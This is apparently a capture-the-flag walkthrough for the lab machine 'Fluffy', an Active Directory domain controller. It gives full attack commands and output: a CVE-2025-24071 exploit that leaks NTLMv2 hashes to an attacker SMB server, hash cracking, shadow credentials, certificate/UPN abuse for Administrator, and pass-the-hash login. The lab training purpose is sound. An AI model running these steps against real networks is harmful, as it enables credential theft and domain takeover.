

# Fluffy

Difficulty: Easy
OS: Windows
Category: Offensive


- **NOTE**
    
    This walkthrough can be done without images
    

### Starting Credentials

We will start this box with the following given credentials: `j.fleischman / J0elTHEM4n1990!`

### Scanning

```bash
Port 53 domain Simple DNS Plus:
Port 88 kerberos-sec:
Port 139 netbios-ssn:
Port 389 ldap:
Port 445 SMB:
Port 464 kpasswd5?:
Port 593 ncacn_http:
Port 636,3268,3269 ssl/ldap: DNS:DC01.fluffy.htb, commonName=fluffy-DC01-CA/domainComponent=fluffy

SMB Clock Skew 6h38m52s
```

### Accessing SMB

Since there is no **Port 80** or **Port 443** to go in to. All we need to do is enumerate things with the given credentials.

```bash
smbclient -L //10.10.11.69 -U j.fleischman%J0elTHEM4n1990!

			  Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        IT              Disk      
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
```

In `IT` sharename, get all the files that looks interesting. You will get a file `Upgrade_Notice.pdf` 

Upon opening the pdf file, this will be your hint as to what should be your entry with.



### Foothold

Gaining foothold means researching about the 2nd vulnerability

[https://github.com/ThemeHackers/CVE-2025-24071](https://github.com/ThemeHackers/CVE-2025-24071)

```bash
USAGE

python3 exploit.py -i <VPN IP> -f exploit
```

Host an SMB server using `impacket-smbserver` so that the SMB share of the victim will try to connect to your impacket SMB share. Make sure that when you execute the impacket tool, the `exploit.zip` exists in that directory.

```bash
sudo impacket-smbserver share ./share -smb2support
```

If you don’t host an `impacket-smbserver` the victim’s SMB share won’t find the `exploit.zip` . When the victim tried to find `exploit.zip` it will broadcast its NTLMv2 hashes to be cracked.

```bash
p.agila::FLUFFY:aaaaaaaaaaaaaaaa:b62164f35a2f4a2b539ccfa42c91ec10:01010000000000008025f54461cddb01980ee0b30b898d7b000000000100100078006c0068004a005800620048006a000300100078006c0068004a005800620048006a000200100066006a0054006e0050004600730079000400100066006a0054006e005000460073007900070008008025f54461cddb01060004000200000008003000300000000000000001000000002000002daa84cffbaad1b43bd444a221def221fe09249d506c65fb13db8370004e60d70a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e00360031000000000000000000
```

### Cracking

Crack the hash using any tool you like, I will use hashcat. Put the hashes in a file

```bash
hashcat --identify hash    # Identify what hash but we know it's NTLMv2

hashcat -m 5600 -a 0 hash rockyou.txt
<SNIP>prometheusx-303
```

### BloodHound

Bloodhound with the following credentials. You can always use `ntpdate` or `faketime` take note about the `SMB Clock Skew 6h38m52s` either the machine is advanced/behind 6h38m52s. Add the following to `/etc/hosts` 

```bash
10.10.11.69     fluffy.htb DC01.fluffy.htb
```

```bash
bloodhound-python -u 'p.agila' -p 'promethusx-303' -d fluffy.htb -dc DC01.fluffy.htb -c all -ns 10.10.11.69 --zip

# Use ntpdate or faketime if clock skew is too great
```

Shortest path from user


As per my understanding, we could do (**THE FOLLOWING IS JUST A THEORY**)

**DIRECT DOMAIN ADMINS ADDITION**

```bash
# Add shadow credentials to ca_svc
certipy shadow auto -u p.agila@fluffy.htb -p 'password' -account ca_svc

# Authenticate as ca_svc
certipy auth -pfx ca_svc.pfx -username ca_svc -domain fluffy.htb

# Add any user to Domain Admins (using ca_svc's GenericAll)
net group "Domain Admins" p.agila /add /domain
```

**CERTIFICATE TEMPLATE ABUSE**

```bash
# Same first two steps above:
# Find vulnerable templates
certipy find -u ca_svc@fluffy.htb -p 'password' -vulnerable

# Request certificate for Administrator
certipy req -u ca_svc@fluffy.htb -p 'password' -target_ip <DC-IP> -template <vulnerable-template> -upn administrator@fluffy.htb

# Authenticate as Administrator using certificate
certipy auth -pfx administrator.pfx
```

But I followed **ADCS + Shadow Credentials + Certificate Abuse chain starting with adding agila to the service accounts**

### Exploitation

Use P.Agila’s **GenericAll** permission on the “Service Accounts” group to add P.Agila as a member of Service Accounts group. This will give P.Agila whatever privilege the group has.

```bash
bloodyAD --host 10.10.11.69 -d fluffy.htb -u p.agila -p 'prometheusx-303' add groupMember 'Service Accounts' p.agila
```

We will then do **Shadow Credentials Attack** on the *ca_svc* service account. This will modify ca_svc’s `msDS-KeyCredentialLink` attribute to add a new key credential. Then, generate a certificate/private key pair that can be used to authenticate as *ca_svc.* The `auto` flag will handle the entire process automatically.

```bash
certipy shadow auto -username P.AGILA@fluffy.htb -password 'prometheusx-303' -account ca_svc

[*] Targeting user 'ca_svc'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '6c085007-0640-6b2a-747a-1c68a9143b7f'
[*] Adding Key Credential with device ID '6c085007-0640-6b2a-747a-1c68a9143b7f' to the Key Credentials for 'ca_svc'
[*] Successfully added Key Credential with device ID '6c085007-0640-6b2a-747a-1c68a9143b7f' to the Key Credentials for 'ca_svc'
[*] Authenticating as 'ca_svc' with the certificate
[*] Using principal: ca_svc@fluffy.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'ca_svc.ccache'
[*] Trying to retrieve NT hash for 'ca_svc'
[*] Restoring the old Key Credentials for 'ca_svc'
[*] Successfully restored the old Key Credentials for 'ca_svc'
[*] NT hash for 'ca_svc': ca0f4f9e9eb8a092addf53bb03fc98c8
```

Authenticating as victim which is *ca_svc* using certificate. We will execute **ESC4 (User Principal Name manipulation)** attack.

Setup **Kerberos** Authentication

```bash
export KRB5CCNAME=ca_svc.ccache
```

Read *ca_svc* account info

```bash
certipy account -u 'ca_svc' -hashes ':ca0f4f9e9eb8a092addf53bb03fc98c8' -dc-ip 10.10.11.69 -user 'ca_svc' read
```

**UPN Manipulation (ESC4 Attack):** Change the UPN of *ca_svc* to `administrator` . This tricks the certificate into thinking it’s for the Administrator account

```bash
certipy-ad account -u 'ca_svc' -hashes ':ca0f4f9e9eb8a092addf53bb03fc98c8' -dc-ip 10.10.11.69 -upn 'administrator' -user 'ca_svc' update
```

**Request Certificate**: Request a certificate using the “User” template because *ca_svc*’s UPN is now “administrator”.

```bash
certipy-ad req -u 'ca_svc' -hashes ':ca0f4f9e9eb8a092addf53bb03fc98c8' -dc-ip 10.10.11.69 -target 'DC01.fluffy.htb' -ca 'fluffy-DC01-CA' -template 'User'

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 16
[*] Got certificate with UPN 'administrator'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```

Restore UPN to avoid detection

```bash
certipy-ad account -u 'ca_svc' -hashes ':ca0f4f9e9eb8a092addf53bb03fc98c8' -dc-ip 10.10.11.69 -upn 'ca_svc@fluffy.htb' -user 'ca_svc' update
```

Authenticate as Administrator

```bash
certipy-ad auth -pfx administrator.pfx -username 'administrator' -domain 'fluffy.htb' -dc-ip 10.10.11.69
```

Access the target

```bash
evil-winrm -i 10.10.11.69 -u administrator -H '8da83a3fa618b6e3a00e93f676c92a6e'   
```

User flag is in `Users\winrm_svc\Desktop` . Root flag is in `Users\Administrator\Desktop`